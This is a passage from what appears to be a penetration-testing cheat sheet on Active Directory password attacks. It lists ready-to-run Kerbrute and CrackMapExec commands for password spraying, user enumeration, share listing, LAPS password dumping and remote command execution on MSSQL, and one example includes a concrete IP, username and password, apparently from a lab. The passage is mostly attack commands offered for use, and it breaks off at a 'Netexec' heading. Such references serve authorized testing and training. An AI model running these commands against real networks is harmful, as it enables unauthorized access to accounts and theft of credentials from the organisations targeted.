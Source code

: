 From a Linux machine instead we can run AD password attack with Kerbrute. We can use this script also from a Window machine joined in the domain.

```shell
./kerbrute_linux_amd64 passwordspray -d <DOMAIN> domain_users.txt <PASSWORD>
```

Kerbrute can be used also to get a list of users, if the machine is vulnerable to as-rep roasting. Search for valid user without credentials with the following

```shell
kerbrute userenum -d <DOMAIN> usernames.txt
```

or

```shell
kerbrute -domain <DOMAIN> -users users.txt -dc-ip <IP>
```

## [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

> [!CAUTION]
> This project is no longer mantained due to the existence of a hostile fork.

Crackmapexec is a tool for password spraying in the Active Directory network. It can be used for example against the SMB service with

```shell
crackmapexec smb <IP> -u users -p '<PASSWORD>' -d <DOMAIN> --continue-on-success
```

List access for shares in the domain for the users in users.txt with passwords passwords.txt

```shell
crackmapexec smb <IP> -u users.txt -p passwords.txt --shares
```

Run crackmapexec through a proxy (eg chisel) and performing a **local authentication** (No Active Directory Authentication)

proxychains crackmapexec smb -u users.txt -p 'PASSWORD' --continue-on-success --local-auth

Run crackmapexec and dump [LAPS](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/) passwords

```shell
crackmapexec ldap 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.219.122 -M laps
```

Run crackmapesec to against mssql

```shell
crackmapexec mssql -d <DOMAIN> -u <username> -p <password> -x "whoami"
```

## Netexec
